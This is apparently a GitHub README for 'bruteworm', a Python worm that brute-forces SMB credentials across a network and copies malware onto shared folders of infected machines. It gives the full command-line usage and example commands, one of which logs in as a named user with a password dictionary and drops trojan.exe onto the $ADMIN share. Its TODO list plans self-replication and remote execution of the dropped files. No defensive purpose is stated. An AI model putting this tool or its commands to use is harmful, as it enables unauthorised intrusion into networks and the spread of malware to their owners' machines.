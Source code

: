 # bruteworm
A simple worm that uses brute force and dictionary attacks through the network to infect vulnerable machines.

Inspired from the famous [SMB Worm Tool](http://www.securityweek.com/hackers-used-sophisticated-smb-worm-tool-attack-sony).

Currently limited to making connections with SMB directly over TCP (445) and SMB via NetBIOS API (139), but I may add support for more protocols in the future.

### Dependencies
* Python 2.7
* Nmap 6.4

### Features
* Generates LM/NTLM hash lists from dictionary words or variable length permutations of specified alphabets
* Scans for hosts with SMB running (forwards to Nmap) and performs OS detection upon session negotiation
* Copies files from local host to public or administrative shares when correct password found

### Usage
```bash
usage: bruteworm [-h] [-i INPUT] [-o OUTPUT] [-d DICTIONARY DICTIONARY] [-b]
                 [-c COUNT] [-n MIN] [-x MAX] [-a ALPHABET] [-t TARGET]
                 [-p PORT] [-u USER] [-s SHARE] [-v]
                 {build,scan,infect}

positional arguments:
  {build,scan,infect}   interaction with specified hosts/subnet victims

optional arguments:
  -h, --help            show this help message and exit
  -i INPUT, --input INPUT
                        source file path
  -o OUTPUT, --output OUTPUT
                        destination file path
  -d DICTIONARY DICTIONARY, --dictionary DICTIONARY DICTIONARY
                        attack of either type pass|hash + dictionary file path
  -b, --bruteforce      use brute force for password guessing
  -c COUNT, --count COUNT
                        number of hashes to generate
  -n MIN, --min MIN     minimum number characters in password
  -x MAX, --max MAX     maximum number characters in password
  -a ALPHABET, --alphabet ALPHABET
                        alphabet of allowed characters without spaces
  -t TARGET, --target TARGET
                        target hosts/subnet e.g. 192.168.2.10, 192.168.2.0/24
  -p PORT, --port PORT  target port e.g. 139
  -u USER, --user USER  target username to use for authentication
  -s SHARE, --share SHARE
                        target share name to drop malware
  -v, --verbosity
```

### Examples
Generate precomputed hashes from a dictionary of words:
```bash
python bruteworm build -vvv -i /path/to/dictionary -o /save/to/hashes
```
Generate precomputed hashes for all possible passwords of 3-6 digits with lower case characters and digits:
```bash
python bruteworm build -vvv -i -n3 -x6 -o /save/to/hashes -a abcdefghijklmnopqrstuvwxyz0123456789
```
Authenticate as user john at host 192.168.1.135 using a password dictionary and copy trojan.exe to share $ADMIN:
```bash
python bruteworm infect -vvv -t 192.168.1.135 -d pass /path/to/dictionary -i trojan.exe -o trojan.exe -u john -s $ADMIN
```

### TODOs
* Make worm standalone so it can replicate itself more easily - as opposed to only acting as a dropper
* Add support for remotely executing copied files using scheduled tasks or other API
* Add support for user enumeration
